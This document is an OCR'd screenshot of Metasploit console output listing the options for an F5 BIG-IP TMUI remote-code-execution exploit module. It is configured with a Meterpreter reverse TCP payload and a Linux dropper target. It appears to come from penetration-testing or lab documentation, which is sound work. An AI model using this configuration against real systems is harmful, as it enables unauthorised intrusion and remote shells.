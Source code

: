 * msf6 exploit(linux/http/f5_bigip_tmui_rce) > show options 

* Module options (exploit/linux/http/f5_bigip_tmui_rce):
========
### Name       Current Setting  Required  Description
----       ---------------  --------  -----------
* Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
* RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
* RPORT      443              yes       The target port (TCP)
* SSL        true             no        Negotiate SSL/TLS for outgoing connections
* SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
* TARGETURI  /                yes       Base path
* URIPATH                     no        The URI to use for this exploit (default is random)
* VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

### Name   Current Setting  Required  Description
----   ---------------  --------  -----------
* LHOST                   yes       The listen address (an interface may be specified)
* LPORT  4444             yes       The listen port


### Exploit target:

Id  Name
--  ----
* 1   Linux Dropper
